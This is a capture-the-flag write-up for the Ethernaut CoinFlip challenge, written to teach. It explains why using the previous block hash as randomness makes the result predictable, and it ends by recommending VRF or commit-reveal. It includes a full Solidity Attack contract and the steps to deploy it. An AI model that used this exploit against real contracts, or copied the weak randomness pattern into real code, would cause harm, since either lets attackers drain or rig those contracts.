 # Introduction
The ``CoinFlip`` contract is a challenge that requires players to correctly guess the outcome of a coin flip multiple times consecutively. However, a critical vulnerability related to predictable randomness enables an attacker to consistently win the coin flip.

## Target
Predict the result of the `flip` function and achieve consecutive wins indefinitely.

## Context
The `CoinFlip` contract has the following key components:

- A `consecutiveWins` variable (type `uint256`) to track the number of successful guesses.
- A `lastHash` variable used to store the previous block’s hash.
- The `FACTOR` constant helps scale the block hash to a range of 0 or 1.
- The `flip` function calculates the outcome using the block hash, making it predictable by external calls.

## Security Vulnerability
The contract relies on `blockhash(block.number - 1)`, which is deterministic and can be accessed off-chain.

An attacker can call the function in the same block and calculate the result before making a guess.

## Exploit Steps

1. **Create the Attack Contract:**
    - Copy and paste the following code into a new file in Remix with an arbitrary name:

    ```solidity
    pragma solidity ^0.8.0;

    contract Attack {
         CoinFlip private coinFlipContract;
         uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

         constructor(address _coinFlipAddress) {
              coinFlipContract = CoinFlip(_coinFlipAddress);
         }

         function attack() public {
              uint256 blockValue = uint256(blockhash(block.number - 1));
              uint256 coinFlip = blockValue / FACTOR;
              bool side = coinFlip == 1;

              require(coinFlipContract.flip(side), "Flip failed!");
         }
    }
    ```

2. **Deploy the Attack Contract:**
    - Remember that: Before you deploy the contract in Remix you need to change the environment to Injected Provider - (Metamask). 
    
    ![alt text](image.png)
    - Deploy the `Attack` contract in Remix, providing the address of the `CoinFlip` contract (instance address) as the constructor argument.

3. **Verify the CoinFlip Contract:**
    - In the Ethernaut console, manually test the `flip` function with a guess:
      ```javascript
      await contract.flip(true); // or false
      ```
    - Check the `consecutiveWins` value to confirm the result:
      ```javascript
      await contract.consecutiveWins();
      ```

4. **Execute the Attack:**
    - Use the deployed `Attack` contract to repeatedly call the `attack` function until the `consecutiveWins` counter reaches 10.
    - Once the counter hits 10, the challenge is successfully completed.

By following these steps, you can exploit the predictable randomness in the `CoinFlip` contract and achieve the required consecutive wins.

## Conclusion

The `CoinFlip` contract demonstrates the dangers of relying on predictable on-chain values for randomness. By leveraging the block hash, an attacker can accurately predict the outcome of the coin flip and achieve consecutive wins indefinitely. This exploit highlights the importance of using secure randomness mechanisms, such as `Chainlink VRF` or `commit-reveal` schemes, to ensure fairness and unpredictability in smart contracts. Properly securing random values is essential for protecting contracts from malicious actors in blockchain environments.
